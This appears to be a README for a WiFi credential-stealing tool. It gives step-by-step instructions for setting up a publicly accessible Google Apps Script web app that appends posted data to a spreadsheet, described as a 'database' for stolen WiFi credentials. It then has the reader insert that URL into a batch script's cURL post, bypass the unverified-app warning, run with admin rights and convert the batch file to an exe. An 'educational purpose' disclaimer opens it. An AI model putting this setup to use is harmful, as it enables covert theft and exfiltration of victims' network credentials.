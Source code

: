 # DISCLAIMER : [NOTICE] - IT SHOULD ONLY BE USED FOR EDUCATIONAL PURPOSE BY SENIOR DEVELOPERS. ANY MISUSE OF "Mushahid Ali's" CODE WILL BE CONSIDERED AS A PUNISHABLE OFFENSE!

Before using this, first create the following -

#1. Create a Google Spreadsheet at : https://docs.google.com/spreadsheets/u/0/ so that we can make Google Sheets as a database where we can store all the WiFi Credentials!

#2. At the first row, first column[A1]; insert text such as "first".

#3. At the first row, second column[B1]; insert text such as "second".

#4. Now, we need a script(INTERFACE) to connect Google Sheets(dataBase) with our CLI-based program. For that we'll be using Google App Script service. Go to "Tools" and then select to Script Editor.

#5. In the code section, paste the following code, save it, run the code : 

```
function doGet(e) {
    //Displays the text on the webpage.
    return ContentService.createTextOutput("This is a GET Request!");
}

function doPost(e) {
    var sheet = SpreadsheetApp.getActiveSheet();
    
    //Parsing the request body
    var body = JSON.parse(e.postData.contents)
    
    //Adding a new row with content from the request body
    sheet.appendRow([body.first,
    body.second
    ])
}
```

#6. Go to "Deploy" and then click on "New Deployment".

#7. In it, click on the "Service Type" and click on "Web App". Fill the data only for : "Execute as" to : YOURMAIL@MAIL.com AND "Who has access" to : "anyone".

#8. And then deploy it. NOTICE : If it asks for "Review permission", grant it permission even if it is showing "This App ins't verified", click on Advanced and click on the unsafe link below it.

#9. And FINALLY it will provide you with a Web App URL(LINK), copy it and paste it in the batch(.bat) program's cURL post link!

NOTE: The program needs "Run As Admin" privileges and an active Internet connection to run the batch script. You can convert the batch file to an exe by downloading bat2exe converter and convert the program if you wish!

This Is Mushahid Ali, signing out!
ENJOY!
